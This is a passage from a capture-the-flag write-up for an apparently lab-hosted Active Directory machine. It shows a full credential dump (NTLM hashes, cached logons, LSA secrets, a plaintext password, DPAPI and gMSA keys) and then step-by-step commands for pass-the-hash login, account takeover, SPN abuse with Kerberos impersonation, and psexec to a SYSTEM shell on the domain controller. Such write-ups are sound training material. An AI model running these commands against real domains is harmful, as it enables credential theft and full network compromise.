
#### Output
> [!FAQ]- Click to expand the code ```bash
[*] Service RemoteRegistry is in stopped state  
[*] Starting service RemoteRegistry  
[*] Target system bootKey: 0x342dfe90cc4061078b79f011cd08f931  
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)  
Administrator:500:aad3b435b51404eeaad3b435b51404ee:b1aac1584c2ea8ed0a9429684e4fc3e5:::  
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::  
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::  
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:60da2d3ba00d6b5932e4c87dce6fa6b4:::  
[*] Dumping cached domain logon information (domain/username:hash)  
PIRATE.HTB/Administrator:$DCC2$10240#Administrator#8baf09ddc5830ac4456ee8639dd89644: (2026-02-25 02:41:09+00:00)  
PIRATE.HTB/gMSA_ADFS_prod$:$DCC2$10240#gMSA_ADFS_prod$#66812dfee46ff41c9c8245a2819c3183: (2026-05-18 21:34:30+00:00)  
PIRATE.HTB/a.white:$DCC2$10240#a.white#366c8924be3ea6d1d12825569a4bcc39: (2026-05-18 21:32:25+00:00)  
[*] Dumping LSA Secrets  
[*] $MACHINE.ACC   
PIRATE\WEB01$:plain_password_hex:29f1505d87014b01b4317fed1d52ddbee2792a698e7e1de1bcdf29ab5d4b8e54828ce470d23491ba84e82d786622a821a14c730cf8610a32db1951b7619ee08c3bcacbab53aac8e052bd64e638c6bbd9529daacf04f86cfb9034808c4378d2c328c8c6afe7655f4a099dc41caeb6279c53313edcbd58db3e14490b7543ba3250ac200ec9834992b61b3f4319162645b50f402de4db0843fc43db7d54e04828abf86e490959bc88670e50f0b50373a3745f70039f8fd032435c4a725526957c7ae0dbaa81273b3aa28c0b029fea90c271b6601ef3ba7a05a13ec8c8ffd9999dd10eee87b4b9eb08a8a4af90710056f558  
PIRATE\WEB01$:aad3b435b51404eeaad3b435b51404ee:feba09cf0013fbf5834f50def734bca9:::  
[*] DefaultPassword   
PIRATE\a.white:E2nvAOKSz5Xz2MJu  
[*] DPAPI_SYSTEM   
dpapi_machinekey:0x01cffc2ef9a91d20107371f9a4a4112c892ed989  
dpapi_userkey:0xa4fddb1b2df2db7cc3d044dc1b559bc1b45a1de9  
[*] NL$KM   
 0000   A5 24 39 57 3F 8F 30 DC  61 F1 56 B7 B5 5C 0F 7C   .$9W?.0.a.V..\.|  
 0010   6B 0A FF DF B0 A2 99 C3  68 A9 FE 15 E2 48 33 A9   k.......h....H3.  
 0020   E9 8C 27 F8 8B 7C 05 55  4D FE 3C 5D 09 EA 9C 49   ..'..|.UM.<]...I  
 0030   95 EB 7A 09 5B 48 7A 14  DC 74 E9 CB 7C 1A E0 8A   ..z.[Hz..t..|...  
NL$KM:a52439573f8f30dc61f156b7b55c0f7c6b0affdfb0a299c368a9fe15e24833a9e98c27f88b7c05554dfe3c5d09ea9c4995eb7a095b487a14dc74e9cb7c1ae08a  
[*] _SC_GMSA_DPAPI_{C6810348-4834-4a1e-817D-5838604E6004}_a09ca32bc7cd2ce752ae0143bd203f0551564c04dd2846c4ed3e4e5a61cc9f11   
 0000   E3 EF 47 4B 98 13 8D D4  46 9F 6D C1 76 F8 79 BA   ..GK....F.m.v.y.  
 0010   1E 08 17 BA 44 50 21 87  B9 08 0B 9F 33 34 C9 1B   ....DP!.....34..  
 0020   9B 1A F1 CE 4E 91 FB 56  2C 8D 88 24 41 2C 70 0E   ....N..V,..$A,p.  
 0030   00 D1 05 BC 67 4D 8E 26  A5 94 E3 DA 41 73 F2 C8   ....gM.&....As..  
 0040   73 13 D6 34 B3 9C 34 12  D4 BF B6 84 92 47 68 6D   s..4..4......Ghm  
 0050   F6 06 5B 53 65 66 80 7E  0A CE 92 F9 4E A3 16 6B   ..[Sef.~....N..k  
 0060   B9 75 2D 12 D3 52 C8 9B  9F DA FA 7D 31 71 E4 DD   .u-..R.....}1q..  
 0070   55 BE 9D 58 55 04 F8 C6  28 A0 FF 4C 67 0D 75 95   U..XU...(..Lg.u.  
 0080   A9 09 A3 C9 A7 EC 2D FF  98 4E 5D DF 77 04 9A 91   ......-..N].w...  
 0090   A5 59 7F 0A 39 C5 49 94  55 67 59 01 CC E4 1A DE   .Y..9.I.UgY.....  
 00a0   D9 8D 80 A1 B5 F7 F8 2C  C2 20 B5 90 DF 4B FC 0B   .......,. ...K..  
 00b0   FC 5F 0F EB 66 E7 3A 56  F1 AB 7F E9 14 C6 D7 CD   ._..f.:V........  
 00c0   2B 83 E0 B9 06 5B 76 E0  2B C3 30 F7 69 44 16 F3   +....[v.+.0.iD..  
 00d0   AC D6 C4 63 DF 84 92 35  00 B6 4A 10 14 E7 44 13   ...c...5..J...D.  
 00e0   80 9A 7A 06 AF 57 7C E7  68 5B FD 2A B5 6A 20 67   ..z..W|.h[.*.j g  
_SC_GMSA_DPAPI_{C6810348-4834-4a1e-817D-5838604E6004}_a09ca32bc7cd2ce752ae0143bd203f0551564c04dd2846c4ed3e4e5a61cc9f11:e3ef474b98138dd4469f6dc176f879ba1e0817ba44502187b9080b9f3334c91b9b1af1ce4e91fb562c8d8824412c700e00d105bc674d8e26a594e3da4173f2c87313d634b39c3412d4bfb6849247686df6065b536566807e0ace92f94ea3166bb9752d12d352c89b9fdafa7d3171e4dd55be9d585504f8c628a0ff4c670d7595a909a3c9a7ec2dff984e5ddf77049a91a5597f0a39c5499455675901cce41aded98d80a1b5f7f82cc220b590df4bfc0bfc5f0feb66e73a56f1ab7fe914c6d7cd2b83e0b9065b76e02bc330f7694416f3acd6c463df84923500b64a1014e74413809a7a06af577ce7685bfd2ab56a2067  
[*] _SC_GMSA_{84A78B8C-56EE-465b-8496-FFB35A1B52A7}_a09ca32bc7cd2ce752ae0143bd203f0551564c04dd2846c4ed3e4e5a61cc9f11   
 0000   01 00 00 00 22 01 00 00  10 00 00 00 12 01 1A 01   ...."...........  
 0010   B6 C4 08 39 11 A2 83 50  B1 FD 69 48 80 36 50 E1   ...9...P..iH.6P.  
 0020   B1 C5 74 1F 77 19 B1 F4  FF 92 62 03 DC DF 4E C9   ..t.w.....b...N.  
 0030   C0 36 9B 7B 92 FE 10 A2  D7 FF 95 3B FA 40 6A 3B   .6.{.......;.@j;  
 0040   67 86 52 3E D8 27 67 CC  8F E2 73 4A F8 92 E9 8E   g.R>.'g...sJ....  
 0050   FB EF 2B 34 76 75 90 32  B4 EC DE F3 42 76 C3 63   ..+4vu.2....Bv.c  
 0060   B8 A9 41 0B 63 D8 09 EA  6E F1 67 F5 B5 41 D7 3C   ..A.c...n.g..A.<  
 0070   3A C4 21 4D A2 2A 14 D9  79 82 C9 28 D9 1B B9 71   :.!M.*..y..(...q  
 0080   FE 99 D4 80 9C 1E BD EA  E8 E7 69 C6 B3 37 7E E1   ..........i..7~.  
 0090   A4 78 DF FB B2 DD C1 33  18 BE 13 11 67 D1 A4 A0   .x.....3....g...  
 00a0   18 33 A4 C2 7E 05 12 69  0D 73 DE 1E 59 A0 17 61   .3..~..i.s..Y..a  
 00b0   EC 7D 40 FC 18 82 05 0C  BF 43 9D 9C BB 28 1A 06   .}@......C...(..  
 00c0   D4 BF 8D 85 D1 FE B2 74  0E C3 99 EC A0 E4 6E 36   .......t......n6  
 00d0   99 0B 72 B2 C4 A6 4A E0  09 BA FB 3D FD 26 4F F7   ..r...J....=.&O.  
 00e0   34 B6 3F B9 22 60 9E 8C  30 58 83 A7 5D 9A EF 75   4.?."`..0X..]..u  
 00f0   CE 37 BC A0 91 04 36 59  0D 93 12 FC A4 6A D8 9A   .7....6Y.....j..  
 0100   61 A8 9B DD C8 73 19 7D  E4 8E AB 3D 69 B9 E4 98   a....s.}...=i...  
 0110   00 00 19 41 B0 1B 73 17  00 00 19 E3 DF 68 72 17   ...A..s......hr.  
 0120   00 00                                              ..  
_SC_GMSA_{84A78B8C-56EE-465b-8496-FFB35A1B52A7}_a09ca32bc7cd2ce752ae0143bd203f0551564c04dd2846c4ed3e4e5a61cc9f11:01000000220100001000000012011a01b6c4083911a28350b1fd6948803650e1b1c5741f7719b1f4ff926203dcdf4ec9c0369b7b92fe10a2d7ff953bfa406a3b6786523ed82767cc8fe2734af892e98efbef2b3476759032b4ecdef34276c363b8a9410b63d809ea6ef167f5b541d73c3ac4214da22a14d97982c928d91bb971fe99d4809c1ebdeae8e769c6b3377ee1a478dffbb2ddc13318be131167d1a4a01833a4c27e0512690d73de1e59a01761ec7d40fc1882050cbf439d9cbb281a06d4bf8d85d1feb2740ec399eca0e46e36990b72b2c4a64ae009bafb3dfd264ff734b63fb922609e8c305883a75d9aef75ce37bca0910436590d9312fca46ad89a61a89bddc873197de48eab3d69b9e49800001941b01b7317000019e3df6872170000  
[*] Cleaning up...   
[*] Stopping service RemoteRegistry

### User Flag

After dumping the secrets, we were able to view NTLM hashes of each and every user, including Administrator. Now we would login as Administrator to **WEB01** machine (192.168.100.2) and get the user flag. We can do this with the following ways:
- Impacket-psexec
- Impacket-wmiexec
- evil-winrm (I WILL USE THIS)

**Commands:**
```bash
> nxc winrm "$IP" -u 'Administrator' -H '[NTHASH]' -d web01.pirate.htb
> evil-winrm -i '192.168.100.2' -u 'Administrator' -H '[NTHASH]'
```





## Privilege Escalation - Get the root

The first step was to identify any objects that my current user (`a.white`) had **WRITE** permission over. Using **bloodyAD**, I found that I could modify the `a.white_adm` account. Since I had control over it, I reset its password to a known value and then verified that the account could also manage the SPNs of the **WEB01$** computer account.

**Commands:**
```bash
> bloodyAD --host '10.129.244.95' -u 'a.white' -p '[password]' -d 'pirate.htb' get writable
> bloodyAD --host '10.129.244.95' -u 'a.white' -p '[password]' -d 'pirate.htb' set password 'a.white_adm' 'Password123!'
> addspn -u 'pirate.htb\a.white_adm' -p 'Password123!' -t 'WEB01$' -q '10.129.244.95'
```




Next, I abused those permissions by modifying **Service Principal Names (SPNs)**. I first added the `HTTP/WEB01` SPN to **WEB01$**, then temporarily added the same SPN to **DC01\$**, creating a duplicate SPN. Finally, I removed the duplicate from **WEB01\$**, leaving `HTTP/web01` associated only with the domain controller. This setup allowed me to trick Kerberos into issuing a ticket for the domain controller while requesting a service ticket for `HTTP/WEB01`.

**Commands:**
```bash
> addspn -u 'pirate.htb\a.white_adm' -p 'Password123!' -t 'WEB01$' -s 'HTTP/WEB01' -r '10.129.244.95'
> addspn -u 'pirate.htb\a.white_adm' -p 'Password123!' -t 'DC01$' -s 'HTTP/WEB01' -r '10.129.244.95'
> addspn -u 'pirate.htb\a.white_adm' -p 'Password123!' -t 'DC01$' -s 'HTTP/WEB01' '10.129.244.95'
```



With the SPN in place, I used `getST` to impersonate the **Administrator** account and requested a Kerberos service ticket. By specifying the `-altservice` option, the ticket was issued for the **CIFS** service on **DC01**, making it suitable for SMB-based administrative access. The resulting ticket was then exported through the `KRB5CCNAME` environment variable so that other Kerberos-aware tools could use it automatically.

**Commands:**
```bash
> impacket-getST -spn 'HTTP/WEB01.pirate.htb' -impersonate 'Administrator' 'pirate.htb/a.white_adm:Password123!' -dc-ip "$IP" -altservice 'CIFS/DC01.pirate.htb'
> export KRB5CCNAME='[ccache file]'
```



Finally, I used **PsExec** with Kerberos authentication to connect to **DC01**. Since the ticket represented the **Administrator** account, I obtained a SYSTEM shell on the domain controller, successfully completing the privilege escalation.

**Commands:**
```bash
> impacket-psexec -k -no-pass DC01.pirate.htb
```



